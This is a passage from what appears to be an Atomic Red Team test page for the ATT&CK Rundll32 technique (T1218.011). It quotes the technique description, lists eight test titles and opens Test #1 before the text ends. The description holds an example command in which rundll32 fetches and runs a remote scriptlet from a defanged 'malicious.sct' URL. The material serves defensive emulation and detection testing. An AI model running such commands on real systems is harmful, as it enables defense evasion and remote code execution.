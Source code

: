 # T1218.011 - Rundll32
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1218/011)
<blockquote>Adversaries may abuse rundll32.exe to proxy execution of malicious code. Using rundll32.exe, vice executing directly (i.e. [Shared Modules](https://attack.mitre.org/techniques/T1129)), may avoid triggering security tools that may not monitor execution of the rundll32.exe process because of allowlists or false positives from normal operations. Rundll32.exe is commonly associated with executing DLL payloads.

Rundll32.exe can also be used to execute [Control Panel](https://attack.mitre.org/techniques/T1218/002) Item files (.cpl) through the undocumented shell32.dll functions <code>Control_RunDLL</code> and <code>Control_RunDLLAsUser</code>. Double-clicking a .cpl file also causes rundll32.exe to execute. (Citation: Trend Micro CPL)

Rundll32 can also be used to execute scripts such as JavaScript. This can be done using a syntax similar to this: <code>rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")"</code>  This behavior has been seen used by malware such as Poweliks. (Citation: This is Security Command Line Confusion)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Rundll32 execute JavaScript Remote Payload With GetObject](#atomic-test-1---rundll32-execute-javascript-remote-payload-with-getobject)

- [Atomic Test #2 - Rundll32 execute VBscript command](#atomic-test-2---rundll32-execute-vbscript-command)

- [Atomic Test #3 - Rundll32 advpack.dll Execution](#atomic-test-3---rundll32-advpackdll-execution)

- [Atomic Test #4 - Rundll32 ieadvpack.dll Execution](#atomic-test-4---rundll32-ieadvpackdll-execution)

- [Atomic Test #5 - Rundll32 syssetup.dll Execution](#atomic-test-5---rundll32-syssetupdll-execution)

- [Atomic Test #6 - Rundll32 setupapi.dll Execution](#atomic-test-6---rundll32-setupapidll-execution)

- [Atomic Test #7 - Execution of HTA and VBS Files using Rundll32 and URL.dll](#atomic-test-7---execution-of-hta-and-vbs-files-using-rundll32-and-urldll)

- [Atomic Test #8 - Launches an executable using Rundll32 and pcwutl.dll](#atomic-test-8---launches-an-executable-using-rundll32-and-pcwutldll)


<br/>

## Atomic Test #1 - Rundll32 execute JavaScript Remote Payload With GetObject
Test execution of a remote script using rundll32.exe. Upon execution notepad.exe will be opened.

**Supported Platforms:** Windows
